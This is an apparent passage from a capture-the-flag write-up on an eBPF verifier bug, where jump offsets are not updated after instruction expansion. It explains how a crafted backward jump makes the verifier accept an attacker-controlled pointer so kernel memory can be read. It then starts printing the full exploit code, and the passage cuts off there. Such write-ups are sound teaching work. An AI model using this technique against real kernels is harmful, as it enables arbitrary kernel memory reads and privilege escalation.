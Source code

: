``` c
                                                        BPF_ALU64_REG(BPF_AND, BPF_REG_AX, BPF_REG_7),
                                                        BPF_ALU64_REG(BPF_ADD, BPF_REG_0, BPF_REG_AX),*/
                                                        
        BPF_MOV64_IMM(BPF_REG_0, 0x0),
        BPF_EXIT_INSN(),
        // jmp1:
        BPF_JMP_IMM(BPF_JLE, BPF_REG_7, 4, -10), // goto jmp2
```
First we create backward jump with the technique we talked before, we jump to `jmp2:` from `jmp1:`. Suppose `BPF_REG_5` is pointer to map value, and it is stored to `BPF_REG_0`. There's some `nop` instruction, i will explain that later, after that arithmetic operation that involve scalar with pointer will expanded by kernel, it will expanded to seven instruction. If you apply the patch, and count the offset `-10` from `jmp1:`, it will resides right at the expanded instruction!. Because of the bug, after instruction expanded, the offset of the jump not changed. Instead of jump to the `jmp2:` which will store `BPF_REG_0` with valid pointer value, it will just jump into expanded instruction with invalid value in `BPF_REG_0`, we can just control `BPF_REG_0` at the start, and after expanded instruction finish, it will treat `BPF_REG_0` as valid pointer even though it's the controlled value in runtime!. Now you know why i put 5 nop instruction right there, it is just to make distance to valid destination offset and distance to expanded instruction is the same, so we make verifier believe we get `BPF_REG_0` is valid from `BPF_REG_5`, but in runtime we just jump into the expanded instruction.

We're almost done, we just need to set `BPF_REG_0` to kernel address of `uiuctf_flag`, and we just use BPF instruction to read `BPF_REG_0` and copy to our bpf map to get the flag. The author of the challenge make our work easier to make `/proc/kallsyms` readable from unpriv user, so we can use `/proc/kallsyms` to get address of `uiuctf_flag`. This is my full exploit code:
``` c
#define _GNU_SOURCE
#include <sched.h>
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/ioctl.h>
#include <errno.h>
#include <pthread.h>
#include <sys/wait.h>
#include <linux/bpf.h>
#include <sys/mman.h>
#include <string.h>
#include <stdint.h>
#include <stdarg.h>
#include <sys/socket.h>
#include <linux/if_ether.h>
#include <linux/ip.h>
#include <stddef.h>
#include <sys/stat.h>

#ifndef __NR_BPF
#define __NR_BPF 321
#endif
#define ptr_to_u64(ptr) ((__u64)(unsigned long)(ptr))

#define BPF_RAW_INSN(CODE, DST, SRC, OFF, IMM) \
	((struct bpf_insn){                        \
	 .code = CODE,                          \
	 .dst_reg = DST,                        \
	 .src_reg = SRC,                        \
	 .off = OFF,                            \
	 .imm = IMM})

#define BPF_LD_IMM64_RAW(DST, SRC, IMM)    \
```